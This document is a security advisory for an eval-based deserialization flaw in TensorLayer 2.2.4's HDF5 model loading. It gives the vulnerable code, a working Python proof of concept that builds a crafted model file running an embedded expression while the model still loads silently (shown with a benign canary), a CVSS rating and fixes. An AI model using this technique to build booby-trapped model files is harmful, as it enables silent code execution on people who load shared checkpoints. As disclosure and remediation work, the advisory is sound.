



# TensorLayer 2.2.4 — Deserialization of Untrusted Data (eval) in HDF5 Model Loading

## Summary

TensorLayer 2.2.4 is affected by an insecure-deserialization (arbitrary code execution) issue in the HDF5 model-loading component. When `tl.models.Model.load()` / `tl.files.load_hdf5_graph()` opens a `.hdf5` model file, the file's `model_config` root attribute is passed to Python's `eval()` without any validation. An attacker who can supply a model file (for example a checkpoint shared through a model hub or a download link) executes arbitrary Python code in the victim's environment during a routine, documented API call; because the crafted payload still evaluates to a valid configuration, the model restores normally and the attack is silent. The issue was confirmed dynamically in a clean offline Docker environment (E2_library_api level): a benign canary embedded in `model_config` executed while the model restored with exit code 0, and a benign negative control loaded clean.

## Affected Product

| Field | Value |
|---|---|
| Vendor | TensorLayer (GitHub organization `tensorlayer`) |
| Product | TensorLayer |
| Affected versions | v2.2.4 (latest release, published 2021-01-06) and current master HEAD as of 2026-09-24; dynamically verified at git commit `0681633252667b317a23b803c11a8a060a44bf31` |
| Component | `tensorlayer/files/utils.py` — `load_hdf5_graph()`; entry points `tl.files.load_hdf5_graph()` and `tl.models.Model.load()` |
| Platform | Any OS running Python 3 with TensorFlow 2.x and h5py (verified in Docker with runtime network access disabled) |
| Vulnerability type | CWE-502: Deserialization of Untrusted Data (the concrete sink is an `eval()` of attacker-controlled text, also classifiable as CWE-95: Eval Injection) |

## Root Cause

**Location:** `tensorlayer/files/utils.py:321-322` (`load_hdf5_graph`)

`save_hdf5_graph()` serializes the model configuration as `str(model_config)` into the HDF5 root attribute `model_config`. The loader restores it by evaluating that attribute as a Python expression. The attribute is plain file content: any party who controls the `.hdf5` file controls the exact string handed to `eval()`, and no check, sandbox, or allowlist exists before evaluation.

```python
f = h5py.File(filepath, 'r')

model_config_str = f.attrs["model_config"].decode('utf8')
model_config = eval(model_config_str)   # attacker-controlled file content executed as code
```

Reachability: the documented entry point `tl.models.Model.load(filepath, load_weights=False)` (`tensorlayer/models/core.py:814`) calls `utils.load_hdf5_graph()` (`tensorlayer/files/utils.py:299`), which reaches the sink unconditionally before any parsing of the configuration dict.

A second, related sink exists on the same code path but was **not** exercised by the verification in this report: when a layer argument is a `('is_Func', <base64 blob>)` tuple, `generate_func()` (`tensorlayer/files/utils.py:212`) calls `str2func()` → `cloudpickle.loads()`. This report only claims dynamic coverage of the `eval()` sink; the cloudpickle branch is present in code but unverified.

## Proof of Concept

### Prerequisites
- Python 3 with `tensorlayer==2.2.4`, TensorFlow 2.x and **h5py < 3** (h5py 2.10.0 used in the captured run): TensorLayer 2.2.4's loader calls `.decode('utf8')` on the attribute, which raises `AttributeError` on h5py >= 3 even for legitimate files (see Verification environment). No network access is required at load time
- The victim calls the documented `tl.models.Model.load()` (or `tl.files.load_hdf5_graph()`) on a file obtained from an untrusted source

### Steps to Reproduce
1. Build any model with the functional API and export a legitimate file, exactly mirroring the writer's output format:

```python
import h5py
import tensorflow as tf
import tensorlayer as tl

ni = tl.layers.Input(shape=(None, 784))
nn = tl.layers.Dense(n_units=64, act=tf.nn.relu)(ni)
net = tl.models.Model(inputs=ni, outputs=nn, name='mlp')
tl.files.save_hdf5_graph(net, filepath='clean.hdf5', save_weights=False)

with h5py.File('clean.hdf5', 'r') as f:
    real_cfg = f.attrs['model_config'].decode('utf8')
```

2. Craft `malicious.hdf5` whose `model_config` attribute is `(<canary expression>, <legitimate config>)[1]`. Evaluating the tuple executes the canary in element 0 and returns the legitimate configuration in element 1, so loading continues normally:

```python
canary = "__import__('builtins').open('CANARY_PROOF.txt','w').write('eval executed')"
payload = "(" + canary + ", " + real_cfg + ")[1]"

with h5py.File('malicious.hdf5', 'w') as f:
    f.attrs['model_config'] = payload.encode('utf8')
```



The screenshot shows sample construction (environment versions, SHA256 of all three samples) and the crafted attribute read back through plain h5py: `model_config` is 654 bytes whose value is the tuple `(<canary expression>, <legitimate config dict>)[1]` — canary first, legitimate config second, `[1]` selecting it.

3. Load the crafted file through the documented API:

```python
net = tl.models.Model.load('malicious.hdf5', load_weights=False)
```



The screenshot shows the documented API loading the crafted file: TensorLayer's normal load log completes (`[*] Load graph finished`, model `mlp` restored), the process exits 0, and the canary artifact `CANARY_PROOF.txt` exists on disk with content `eval executed` — the embedded expression ran during load while the model still restored.

4. Repeat with a benign negative control file whose `model_config` contains only the plain string form of the legitimate configuration; the model loads cleanly with no side effect.



The screenshot shows the same load against the negative control: model restored, exit 0, and `ls CANARY_PROOF.txt` confirms no artifact was created (`[exit 2]` is the expected "file not found" of that verification `ls`).

### Expected vs Actual
- Expected: a loader must not execute code embedded in a model file's metadata; loading an untrusted file should load data only, or fail safely.
- Actual: any Python expression in `model_config` executes during load; with the tuple trick the payload runs and the model still restores, exit code 0, with no error or warning.

### Sanitized PoC input
```text
model_config = "(<write canary>, <valid model config dict literal>)[1]"
# canary: a benign observable side effect, e.g. writing a local file CANARY_PROOF.txt
# valid model config: the Input->Dense configuration captured from save_hdf5_graph output
```

### Verification environment

Two independent dynamic verifications have been performed:

1. **Original verification (offline Docker).** An independent Docker image built from commit `0681633252667b317a23b803c11a8a060a44bf31` (TensorLayer 2.2.4) executed the documented `Model.load()` twice (malicious file / benign control) with runtime network access disabled. The malicious file hit the fixed canary and still restored the model; the benign control was clean. Tree hash, installed modules, sink and artifact hashes were all checked, and the two runs produced byte-identical results (E2_library_api level). That round's sample hashes were recorded separately and are not reused here.
2. **Reproduction with real terminal captures (2026-09-25, this repository's `poc/` + `images/`).** WSL2 Ubuntu 24.04 on Windows, Python 3.8.20 venv with `tensorflow-cpu==2.4.4`, `h5py==2.10.0`, `numpy==1.19.5`, and TensorLayer 2.2.4 installed with `--no-deps` from the commit-pinned source tree `poc/TensorLayer-06816332`.

Environment fact discovered during reproduction: with **h5py >= 3** the loader crashes with `AttributeError` on `.decode('utf8')` (h5py 3 returns `str` for the attribute) even for files produced by TensorLayer's own writer, so both the documented save/load round-trip and this vulnerability's trigger require an h5py 2.x runtime; h5py 2.10.0 was used for the evidence above. The downstream cloudpickle branch (`generate_func`, line 212) was not dynamically exercised in either round.

## Impact
- Confidentiality: High — arbitrary code execution exposes everything accessible to the loading process (model files, environment secrets, filesystem)
- Integrity: High — attacker code can modify files, models and process state at will
- Availability: High — attacker code can disrupt or terminate the process
- Scope: full code execution in the victim's Python environment; the attack is silent because the payload runs while the model still loads successfully

## Attack Vector and Severity (CVSS v3.1)

| Metric | Value | Rationale |
|---|---|---|
| Attack Vector | N | Crafted model files are routinely distributed over networks (model hubs, downloads, attachments) |
| Attack Complexity | L | No conditions beyond the victim loading the file; deterministic |
| Privileges Required | N | None — the file alone carries the attack |
| User Interaction | R | The victim must call `Model.load()` on the crafted file (a routine action) |
| Scope | U | Code executes within the victim's own security context |
| Confidentiality | H | Full compromise of the loading process |
| Integrity | H | Full compromise of the loading process |
| Availability | H | Full compromise of the loading process |

```
Score: 8.8 (High)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
```

> Assumption note: AV:N assumes the common distribution path (an untrusted checkpoint fetched over the network). A purely local-file scenario would yield AV:L (7.8), so the chosen vector is also the conservative (higher-scoring) option.

## Remediation
- Replace `eval(model_config_str)` with `ast.literal_eval()` at `tensorlayer/files/utils.py:322` — the legitimate writer (`str(model_config)`) only emits literal structures, so literal parsing is lossless for benign files.
- Gate the `str2func()` / `cloudpickle.loads()` branch (`generate_func()`, `tensorlayer/files/utils.py:212`) behind an explicit opt-in trust flag and document that model files from untrusted sources must not be loaded with it — mirroring the `weights_only=`-style hardening adopted by other ML frameworks.
- Workaround until patched: never call `Model.load()` / `load_hdf5_graph()` on files from untrusted sources.


## References
- Source repository: https://github.com/tensorlayer/TensorLayer
- Vulnerable code: https://github.com/tensorlayer/TensorLayer/blob/0681633252667b317a23b803c11a8a060a44bf31/tensorlayer/files/utils.py#L299-L326 (eval at line 322; still present on master as of 2026-09-24)
- Entry point: https://github.com/tensorlayer/TensorLayer/blob/0681633252667b317a23b803c11a8a060a44bf31/tensorlayer/models/core.py#L814
- CWE: https://cwe.mitre.org/data/definitions/502.html
- Upstream report: [pending publication]
- Vendor advisory: [none]

